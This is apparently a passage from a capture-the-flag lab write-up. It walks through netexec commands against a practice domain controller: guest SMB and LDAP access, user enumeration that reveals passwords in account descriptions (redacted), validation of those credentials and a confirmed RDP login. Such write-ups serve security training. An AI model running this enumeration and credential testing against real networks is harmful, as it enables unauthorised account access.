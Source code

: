From the port scan, it seems we are dealing with a **Domain Controller (DC)**, so we update our hosts file accordingly:

```
10.10.28.243 labyrinth.thm.local thm.local LABYRINTH
```
{: file="/etc/hosts" }

## User Flag

Checking the target for **guest** authentication using `netexec`, we can see that it works:

```console
$ nxc smb labyrinth.thm.local -u 'guest' -p ''
SMB         10.10.28.243    445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)
SMB         10.10.28.243    445    LABYRINTH        [+] thm.local\guest:
```

Also authenticating to **LDAP** as `guest` and fetching the users with `netexec`, we can see what looks like a password in the description field of two users:

```console
$ nxc ldap labyrinth.thm.local -u 'guest' -p '' --users
LDAP        10.10.28.243    389    LABYRINTH        -Username-                    -Last PW Set-       -BadPW- -Description-
...
LDAP        10.10.28.243    389    LABYRINTH        IVY_WILLIS                    2023-05-30 12:30:55 0       Please change it: C[REDACTED]!
...
LDAP        10.10.28.243    389    LABYRINTH        SUSANNA_MCKNIGHT              2023-07-05 15:11:32 0       Please change it: C[REDACTED]!
...
```

Trying to validate them, we can see that both sets of credentials work:

```console
$ nxc smb labyrinth.thm.local -u 'IVY_WILLIS' -p 'C[REDACTED]!'
SMB         10.10.28.243    445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)
SMB         10.10.28.243    445    LABYRINTH        [+] thm.local\IVY_WILLIS:C[REDACTED]!

$ nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p 'C[REDACTED]!'
SMB         10.10.28.243    445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)
SMB         10.10.28.243    445    LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:C[REDACTED]!
```

Since the **RDP** port was open on the target, checking the discovered credentials against RDP shows that **SUSANNA\_MCKNIGHT** can RDP into the machine:

```console
$ nxc rdp labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p 'C[REDACTED]!'
RDP         10.10.28.243    3389   LABYRINTH        [*] Windows 10 or Windows Server 2016 Build 17763 (name:LABYRINTH) (domain:thm.local) (nla:True)
RDP         10.10.28.243    3389   LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:C[REDACTED]! (Pwn3d!)
```
